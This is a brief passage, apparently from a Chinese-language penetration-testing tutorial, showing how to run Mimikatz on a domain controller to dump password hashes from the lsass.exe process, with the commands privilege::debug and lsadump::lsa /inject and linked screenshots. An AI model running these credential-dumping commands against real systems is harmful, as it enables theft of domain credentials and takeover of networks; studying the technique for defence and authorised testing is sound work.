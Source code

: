 [![](assets/1706090550-f83e898d8aa1b3e121d93e3b01783d55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100936-9f6ea882-ba5d-1.png)  
c、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 哈希

```plain
privilege::debug
lsadump::lsa /inject
```

[![](assets/1706090550-a3f3498872c604d9402eeb491b12e458.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101003-af409626-ba5d-1.png)

